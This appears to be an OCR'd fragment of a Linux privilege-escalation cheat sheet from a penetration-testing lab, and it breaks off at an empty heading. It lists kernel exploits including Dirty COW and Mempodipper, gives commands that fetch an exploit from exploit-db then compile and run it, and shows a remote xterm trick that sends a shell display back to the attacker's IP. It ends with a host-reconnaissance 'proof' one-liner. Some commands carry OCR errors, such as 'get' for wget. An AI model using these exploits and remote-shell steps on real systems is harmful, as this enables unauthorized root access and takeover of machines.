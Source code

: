 > wget  https://www.rebootuser.com/?p=1758

## Exploits worth running

CVE-2010-3904 - Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8

> https://www.exploit-db.com/exploits/15285/

Linux Kernel <= 2.6.37 'Full-Nelson.c'

https://www.exploit-db.com/exploits/15704/

CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)

> https://git.zx2c4.com/CVE-2012-0056/about/

Linux CVE 2012-0056

> get -O exploit.c <http://www.exploit-db.com/download/18411>
>  gcc -o mempodipper exploit.c
>  ./mempodipper

CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8

> https://dirtycow.ninja/

Compile dirty cow:

 > g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil

Cross compiling exploits

> $ gcc -m32 -o output32 hello.c #(32 bit)
> $  gcc -m64 -o output hello.c # (64 bit)

Linux 2.6.32

> https://www.exploit-db.com/exploits/15285/

## Open an xterm remotely

First, run an xserver in your machine

> $ Xnest :1

Then, bind it to xterm, again in your machine:

> $ xterm -display 127.0.0.1:1

Finally, run the follwing in the remote machine:

> $ /usr/openwin/bin/xterm -display yourip:1

## Get proof

> $ echo " ";echo "uname -a:";uname -a;echo " ";echo "hostname:";hostname;echo " ";echo "id";id;echo " ";echo "ifconfig:";/sbin/ifconfig -a;echo " ";echo "proof:";cat /root/proof.txt 2>/dev/null; cat /Desktop/proof.txt 2>/dev/null;echo " "

## Elevation in 2.6.x:
